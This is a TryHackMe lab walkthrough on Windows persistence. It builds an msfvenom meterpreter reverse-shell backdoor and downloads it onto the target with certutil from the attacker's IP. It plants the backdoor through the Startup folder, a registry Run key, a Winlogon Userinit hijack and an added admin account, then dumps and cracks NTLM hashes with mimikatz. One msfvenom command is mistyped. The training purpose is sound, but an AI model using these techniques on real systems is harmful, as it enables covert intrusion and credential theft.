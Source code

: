 # TryHackMe-Persistance

>Abdullah Rizwan | 3:06 PM | 3rd November 2020

## ﻿What is persistence?

Persistence is a post-exploitation activity used by penetration testers in order to keep access to a system throughout the whole assessment and not to have to re-exploit the target even if the system restarts.

It can be considered that there are two types of persistence. These two types are:

    Low privileged persistence
    Privileged user persistence


### Low privileged user persistence

Low privileged persistence means that the penetration tester gained and uses persistence techniques to keep his access to the target system under a normal user profile/account (a domain user with no administrative rights).


### Privileged user persistence

After gaining access to a system, sometimes (because it would be inaccurate to say always), a penetration tester will do privilege escalation in order to gain access to the highest privilege user that can be on a Windows machine (nt authority\system).

After privilege escalation, he will use persistence in order to keep the access he gained.


Keeping persistence

Ways of keeping persistence:

    Startup folder persistence
    Editing registry keys
    Using scheduled tasks
    Using BITS
    Creating a backdoored service
    Creating another user
    Backdooring RDP


## RDP 

Access the machine through RDP (Remote Desktop Protocol) through the credentials given

```
tryhackme:tryhackme123
```


<img src="https://imgur.com/C4ygsY5.png"/>

Then click on `Save and Connect`


<img src="https://imgur.com/hIiAApg.png"/>

## Msfvenom 

Now create a backdoor through `msfvenom` and use `metasploit` to set a listener on to the port that the backdoor is set 

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.14.3.143 LHOST=6666 -f exe > backdoor.exe
```
<img src="https://imgur.com/0pvMA5U.png"/>

## Metasploit

<img src="https://imgur.com/yf8xl4Y.png"/>

Now host the backdoor on your machine

`python3 -m http.server 80`

And run this on target machine on `cmd` 

`certutil.exe -urlcache -f http://10.14.3.143:80/backdoor.exe backdoor.exe`

<img src="https://imgur.com/WHGRLa6.png"/>

But I didn't get saved on  the target machine so I tried to save it on it's home directory and it worked now start listening on metasploit and execute the backdoor on our target machine


But it didn't get worked , so now let's generate another backdoor but instead of specifiying architecture leave it 


<img src="https://imgur.com/rgQvRda.png"/>


<img src="https://imgur.com/bAgctSI.png"/>

Now this worked !

<img src="https://imgur.com/Hm8xYhj.png"/>


### Startup folder persistence

Now we can upload a backdoor that will be executed whenever the system starts up to do that we navigate to

`C:\Users\tryhackme\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` and here upload that backdoor

<img src="https://imgur.com/PIJtzlj.png"/>

<img src="https://imgur.com/Wg0PUa6.png"/>

Every time a user restarts its computer and logs in the backdoor will be executed and Metasploit will receive the connection.


### Editing registries

A low privileged user can still edit registries entries in a system , entry that can be edited is 

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
```
On meterpreter shell type `shell` to get a windows cmd and then type this command

`reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\Users\tryhackme\AppData\Roaming\backdoor.exe`

<img src="https://imgur.com/AmiciiN.png"/>



### Having Administrator Rights

By having high privilege rights we can add another admin user

`net user /add <USER> <PASSWORD>`

This will just a user to add that user in `Administrator` group

`net localgroup Administrators <USER> /add`

### Editing registries

We can also get persistance through adding a registry , when a user logs on to a system `Backdoor` can be invoked

`reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, <PATH_TO_BINARY>" /f`

### Hash Dump

Hash dumping will not run unless you are administrator so let's switch to admin 

`Administrator:Tryhackme123!`

<img src="https://imgur.com/JXNCzh5.png"/>

Now , run `getsystem` and `load kiwi` then run `lsa_dump_sam`

<img src="https://imgur.com/vXOvdMQ.png"/>  


```
Domain : PERSISTENCE                 
SysKey : 31066436b67d1dfb03c9f249b9aed099                                                                                                           
Local SID : S-1-5-21-3421978194-83625553-4099171136                       

SAMKey : d0bb192867888f2d94bc148c442c6c7c                                 

RID  : 000001f4 (500)                
User : Administrator                 
  Hash NTLM: 52745740e9a05e6195731194f03865ea                             

RID  : 000001f5 (501)                
User : Guest                         

RID  : 000001f7 (503)                
User : DefaultAccount                

RID  : 000003e8 (1000)               
User : joe                           
  Hash NTLM: 878d8014606cda29677a44efa1353fc7                             

RID  : 000003e9 (1001)               
User : chris                         
  Hash NTLM: e0b6050c7280bf4a7bee599cf374fd80                             

RID  : 000003ea (1002)               
User : tryhackme                     
  Hash NTLM: 0c7ba4684821cd349e327896d9db4474   
```

Now let's crack `joe`'s and `chris`'s password hashes


#### Chris

<img src="https://imgur.com/XEGhHF2.png"/>

#### Joe

<img src="https://imgur.com/1hjFwTH.png"/>

I used online crackstation to crack these hashes  however they can still be cracked by using `crackstation`'s wordlists or using `seclist` to crack them using `hashcat` or `johntheripper`

